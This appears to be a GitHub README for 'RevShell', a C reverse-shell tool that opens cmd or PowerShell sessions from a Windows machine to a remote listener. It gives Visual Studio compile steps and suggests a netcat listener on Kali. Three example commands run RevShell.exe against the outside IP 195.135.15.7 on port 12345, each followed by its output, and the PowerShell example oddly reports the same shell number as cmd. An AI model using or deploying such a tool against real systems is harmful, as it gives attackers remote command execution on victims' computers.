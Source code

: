 # RevShell

## Description
This is a simple C-based reverse shell used to open a _cmd_ or _powershell_ session from Windows to Linux/Windows/OSx.

## Features
- [x] Open a reverse shell using cmd.exe
- [x] Open a reverse shell using powershell.exe

## How To Compile The Code
1. Download and install VisualStudio 2019 - Community Edition
2. Clone this repository to a local folder
3. Open the file "RevShell.sln"
4. Press F6 to compile the code
5. Enjoy :)

## Examples
Before starting the executable make sure you have started a listener on your favorite (Linux) distribution. I use netcat on Kali Linux.

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a cmd session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 cmd
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

> Open a powershell session
```
C:\RevShell> RevShell.exe 195.135.15.7 12345 powershell
[+] SELECTED SHELL:     0
[+] VALID IP ADDRESS:   195.135.15.7
[+] VALID IP PORT:      12345
```

![Image of Cracked Pattern](https://github.com/AleDiBen/RevShell/blob/master/example.png)\
_RevShell.exe in action._

